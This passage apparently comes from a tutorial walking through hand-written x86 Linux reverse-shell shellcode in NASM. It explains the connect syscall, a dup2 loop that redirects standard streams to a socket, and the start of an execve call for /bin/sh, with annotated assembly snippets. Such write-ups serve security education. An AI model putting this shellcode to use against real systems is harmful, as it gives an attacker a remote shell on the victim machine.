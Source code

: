 We clear the `EDX` register, and pass the hexadecimal value `0x10` (`16` in decimal), since that is the size of the address struct.

```nasm
	xor edx, edx
	mov dl, 0x10		; 10 is the decimal 16 that is the size of the address struct
```

The final step for the `connect` syscall is to invoke a syscall interrupt by the next instruction:

```nasm
	int 0x80		; exec connect syscall
```

- Syscall `dup2`

We create a loop that will execute `dup2` 3 times for `STDERR`, `STDOUT` and `STDIN` respectively. So, we clear the `ECX` register and pass the value `0x3` to `CL`, which is the counter for the loop.

```nasm
	xor ecx, ecx
	mov cl, 0x3		; set counter to 3
```

We first declare the procedure `dup2loop`, which acts like a function, where we clear the `EAX` register and pass to `AL` the hexadecimal value `0x3f` (`63` in decimal) as the `dup2` syscall number. Then, we decrement the counter (`CL`) by 1, so in the first iteration the value inside `CL` will be `2`, representing the `STDERR`. 2 more iterations will happen with value `1` and `0` for `STDOUT` and `STDIN` respectively. Each iteration is finished by executing the `dup2` syscall and by creating a conditional instruction. That instruction checks if the Zero Flag (`ZF`) is set, meaning it has value `0`, and if it is the loop is stopped and the execution is continued. If it is not `0` a `jump` happens back to `dup2loop`. In the third iteration, `CL` is decremented to `0`, so the `ZF` is set, and the execution will continue to the next instructions and there will not be a jump back to `dup2loop`.

```nasm
dup2loop:
	xor eax, eax
	mov al, 0x3f		; 3f is the hex value of the decimal 63 for dup2

	dec cl			; decrement counter by 1

	int 0x80		; exec dup2 syscall

	jnz dup2loop		; jump to loop if ZF is not zero, else continue
```

- Syscall `execve`

We clear the `EAX` register and pass the hexadecimal value `0xb` (`11` in decimal) to `AL` as the `execve` syscall number.

```nasm
	xor eax, eax
	mov al, 0xb		; b is the hex value of the decimal 11 for execve
```

Then we clear the `EDX` register. The last 2 arguments of `execve` have `NULL` values, so we push the `EDX` value to the stack twice. Also, the executable "/bin/sh" must be null terminated, so we push one more time the `EDX` value to the stack.

